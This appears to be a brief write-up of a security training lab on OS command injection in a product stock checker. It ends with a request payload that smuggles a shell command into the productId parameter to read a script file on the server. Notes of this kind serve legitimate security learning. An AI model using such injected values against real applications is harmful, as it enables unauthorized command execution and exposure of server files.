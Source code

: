 # Lab: OS command injection, simple case

 This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

Analysis:

- both parameters are vulnerable to Command injection

productId=1+%26+cat+/home/peter-GkzSoF/stockreport.sh+#+&storeId=1
